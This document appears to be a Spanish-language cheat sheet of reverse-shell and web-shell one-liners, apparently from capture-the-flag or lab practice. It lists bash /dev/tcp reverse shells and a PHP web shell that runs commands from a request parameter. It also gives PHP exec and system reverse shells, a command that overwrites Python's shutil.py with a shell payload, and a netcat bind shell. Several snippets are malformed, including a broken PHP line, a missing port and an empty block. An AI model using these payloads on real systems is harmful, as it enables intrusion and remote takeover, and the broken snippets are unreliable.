 ### Oneliner Bash
```css
bash -c "bash -i >& /dev/tcp/10.10.14.27/9001 0>&1"
```

### Oneliner cmd desde url
```css
<?php 
        echo "<pre>" . shell_exec($_REQUEST['cmd']>
?>
```

### Oneliner php
```python
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/7890 0>&1'"):
```

### Oneliner php
```python
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.85/443 0>&1'")
?>
```

### Oneliner php

```python

```

### Oneliner python
```python
echo "import os; os.system(\"bash -c 'bash -i >& /dev/tcp/10.8.203.6 0>&1'\")" > /usr/lib/python3.8/shutil.py
```

### Blind Shell
```python
# Maquina Victima

nc -nlvp 4646 -e /bin/bash
---------------------------------------------------------------------------------------------------

# Maquina Atacante

nc IPvictima 4646

```
